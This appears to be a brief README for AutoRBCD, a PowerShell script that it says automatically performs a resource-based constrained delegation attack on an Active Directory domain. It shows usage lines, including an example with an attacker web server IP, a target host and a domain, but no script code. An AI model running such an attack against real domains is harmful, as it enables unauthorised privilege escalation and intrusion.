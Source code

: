 # AutoRBCD
needs three arguments and then automagically executes the resource based constrained delegation attack in the current context.

```PS C:\AutoRBCD.ps1 -WebServer -Target -Domain```

```PS C:\AutoRBCD.ps1 -WebServer 192.168.49.68 -Target appsrv01 -Domain prod.corp3.com```
